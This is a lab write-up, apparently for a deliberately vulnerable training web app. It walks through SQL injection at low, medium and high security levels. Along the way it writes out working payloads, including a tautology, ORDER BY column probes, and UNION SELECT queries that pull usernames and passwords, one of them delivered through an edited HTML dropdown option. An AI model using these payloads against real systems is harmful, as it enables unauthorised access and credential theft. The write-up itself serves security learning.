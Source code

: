 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> ### Objective
> There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

## Security Level: Low
> The SQL query uses RAW input that is directly controlled by the attacker. All they need to-do is escape the query and then they are able to execute any SQL query they wish.
> Spoiler: ?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![1](https://github.com/Knign/Write-ups/assets/110326359/e9488e50-a295-4445-92e8-ee26e477daaa)

We can provide a user ID `1` to the application.

![2](https://github.com/Knign/Write-ups/assets/110326359/6812920c-1919-4b9a-8f8f-6a8997d27876)

So the user input is inserted in the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
Let's check the source code to see how the application behaves.

![3](https://github.com/Knign/Write-ups/assets/110326359/1c4a41e0-1808-41ca-abb9-32883f28294a)

As we can see, the user input is not sanitized in any way. This is what leaves an application vulnerable to SQLi.

Let's provide the following input:

```
1' OR '1'='1
```

Our input causes the application to create the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

As 1 is always equal to 1,  all the users' first and last name will be output to the page regardless of whether their id is 1 or not.

![4](https://github.com/Knign/Write-ups/assets/110326359/1a0694a8-b898-4d7e-b214-a034519825fc)

Our job in not done though, we need to find the passwords for the users using a `UNION` attack.

For a `UNION` query to work, two key requirements must be met:
	- The individual queries must return the same number of columns.
	- The data types in each column must be compatible between the individual queries.

We can find the number of columns using the following queries provided by Portswigger one by one:
```
' ORDER BY 1#
' ORDER BY 2# 
' ORDER BY 3#
```
We will be able to notice that the first two queries do not return any result but the third query returns a blank screen.
This means that there are two columns in the current table.

Let's create our final payload:

```
' UNION SELECT user, password FROM users#
```

![5](https://github.com/Knign/Write-ups/assets/110326359/755567c6-553e-4b17-9fa7-ec061bb1a41b)

&nbsp;


## Security Level: Medium
> The medium level uses a form of SQL injection protection, with the function of "[mysql_real_escape_string()](https://secure.php.net/manual/en/function.mysql-real-escape-string.php)". However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered.
> The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form.
> Spoiler: ?id=a UNION SELECT 1,2;-- -&Submit=Submit.

![6](https://github.com/Knign/Write-ups/assets/110326359/e39d6f7b-43ec-4911-b9cc-b66ffc775028)

Let's first check the source code.

![7](https://github.com/Knign/Write-ups/assets/110326359/c97287bc-87c5-4aef-b115-a098d7bd625a)

In this level our input is not inserted into quotes.

We can inspect the code for more information.

![8](https://github.com/Knign/Write-ups/assets/110326359/f34f3bc2-2d37-4ead-93be-d7e5c7b3a154)

Let's change the `<option>` tag to the following value:

```
<option value="1 OR 1=1">1 OR 1=1</option>
```

![9](https://github.com/Knign/Write-ups/assets/110326359/042d2955-9edb-466d-b046-f32da4b3dc19)

In order to retrieve the passwords, we can set the `<option>` tag to the following value:

```
<option value="1 UNION SELECT user, password FROM users#">1 UNION SELECT user, password FROM users#</option>
```

![10](https://github.com/Knign/Write-ups/assets/110326359/d218c485-00c4-4f96-bff1-f06d228f94d5)

&nbsp;


## Security Level: High
> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
> Spoiler: ID: a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![11](https://github.com/Knign/Write-ups/assets/110326359/bdc9100f-4781-4b24-a326-4459cff1fa83)

Let's check the source code.

![12](https://github.com/Knign/Write-ups/assets/110326359/6b80b238-038e-4d03-aed2-80ab0cd2a2f3)

The application treats our input the same way it did in the low security level.

That means the same payload as the low security level should work in this level.

```
' UNION SELECT user, password FROM users#
```

![13](https://github.com/Knign/Write-ups/assets/110326359/2d077567-4ce3-4bb9-a7d6-377d398ed312)
